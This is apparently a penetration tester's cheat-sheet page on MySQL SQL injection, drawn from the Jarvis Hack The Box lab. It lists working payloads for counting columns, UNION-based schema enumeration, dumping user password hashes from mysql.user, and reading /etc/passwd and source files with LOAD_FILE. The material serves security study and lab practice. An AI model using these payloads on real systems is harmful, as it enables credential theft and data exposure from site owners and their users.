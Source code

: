 # MySQL

#### All examples comes from Jarvis HTB room

[http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

## order by \(get number of columns\)

id=1 order by 1

```text
http://10.10.10.143/room.php?cod=2%20order%20by%207
```

We can iterate through the numbers to calculate the number of columns.   
Since the order by clause produced an error on the 8th iteration, we know that the query returns a resultset containing three columns. 

![cod=1 order by 7](../../.gitbook/assets/image%20%281%29.png)

![cod=1 order by 8](../../.gitbook/assets/image%20%282%29.png)

## union select all 

Now that we know how many columns are in the table, we can use this information to extract further data with a UNION statement. Unions allow us to add a second select statement to the original query, extending our capability, but each select statement must return the same number of columns.

![cod=7 UNION SELECT ALL cod=7 UNION SELECT ALL 1,user\(\),\(SELECT schema\_name FROM information\_schema.schemata limit 2,1\),database\(\),@@version,6,7](../../.gitbook/assets/image%20%2811%29.png)

## limit

limit to one result. Can iterate through the results with limit 2,1 and then 3, 1. 

```text
SELECT schema_name FROM information_schema.schemata limit 2,1
```

## group\_concat

returns all output in one result.

![\(SELECT group\_concat\(schema\_name,&quot;\r\n&quot;\) FROM information\_schema.schemata\)](../../.gitbook/assets/image%20%284%29.png)

```text
(SELECT+group_concat(schema_name,"\r\n")+FROM+information_schema.schemata)
```

## Pulling Table and Columns names

![](../../.gitbook/assets/image.png)

```text
(SELECT group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n") FROM information_schema.columns where TABLE_SCHEMA = 'hotel')
```

#### Other Examples 

```text
')) OR 1=2 UNION SELECT ALL 1,2,3,4,5,6,7,8,9,TABLE_NAME,11 FROM information_schema.columns
```

## Getting user hashes

![](../../.gitbook/assets/image%20%289%29.png)

```text
(SELECT group_concat(user,":",password,"\r\n") FROM mysql.user)
```

## Loading a file 

![](../../.gitbook/assets/image%20%286%29.png)

```text
LOAD_FILE('/etc/passwd')
```

### TO\_Base64

```text
TO_BASE64(LOAD_FILE('/var/www/html/room.php')
```

